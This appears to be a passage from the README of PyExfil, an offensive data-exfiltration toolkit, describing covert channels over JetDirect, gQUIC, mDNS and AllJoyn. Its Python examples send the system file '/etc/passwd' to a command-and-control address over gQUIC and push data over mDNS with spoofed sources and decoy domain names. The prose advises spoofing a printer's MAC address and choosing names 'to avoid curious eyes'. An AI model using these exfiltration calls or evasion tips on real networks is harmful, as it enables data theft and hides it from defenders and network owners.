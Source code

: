 #### JetDirect
This "protocol" is used extensively in some networks to send files to be printed by various printers. Since it is widely used we thought it might be interesting to run inside the network for communication. Especially if you bother changing your MAC address to a printer's. This method is extremely useful inside the LAN.

```python
import thread
from pyexfil.Comm.jetdirect.communicator import Broker

def PRINT(src, data):
    print(src)
    print(data)

b = Broker("patient0", host="127.0.0.1", port=9100, key="123", retFunc=PRINT)
thread.start_new_thread(b.listen_clients, ())
b.broadcast_message("hello world!")
```

#### GQUIC
The QUIC protocol (Quick UDP Internet Connections) is an entirely new protocol for the web developed on top of UDP instead of TCP. Google’s version of QUIC (often called gQUIC) does roll it’s own crypto but that is currently being standardized by IETF (commonly known as iQUIC for now) which basically uses TLSv1.3.

```python
from pyexfil.Comm.GQUIC import Send

Send(file_name='/etc/passwd', CNC_ip='1.1.1.1', CNC_port=443, key='IMPICKLERICK!')
```

#### MDNS Query
Multicast DNS (mDNS) protocol resolves host names to IP addresses within small networks that do not include a local name server. This behavior happens even if a DNS server is locally available since most OSs will attempt looking for on regardless of the presence of a name-server on the network. This opens an interesting avenue for another Broadcast based communication for C&C. By default, mDNS only and exclusively resolves host names ending with the .local top-level domain (TLD) and is coded as such on default. You can change it, but we advise keeping a .local address to avoid curious eyes...

```python
from pyexfil.Comm.MDNS import Send

Send('1.1.1.1', "It's time to get schwifty", sequence=42, spoof_source=False, dns_name='google.com')
Send('1.1.1.1', "You gotta get schwifty", sequence=43, spoof_source='1.2.3.4', dns_name='yahoo.com')
```

#### AllJoyn
AllJoyn is a collaborative open source software framework that allows devices to communicate with other devices around them. The system uses the client–server model to organize itself. For example, a light could be a "producer" (server) and a switch a "consumer" (client). The system also has technology for audio streaming to multiple device sinks in a synchronized way. Source code of the AllJoyn framework is located in the AllJoyn Open Source Project's repositories [AllJoyn Git](https://git.allseenalliance.org/cgit). Details for all current projects are available at [AllJoyn Wiki](http://wiki.alljoyn.org/).
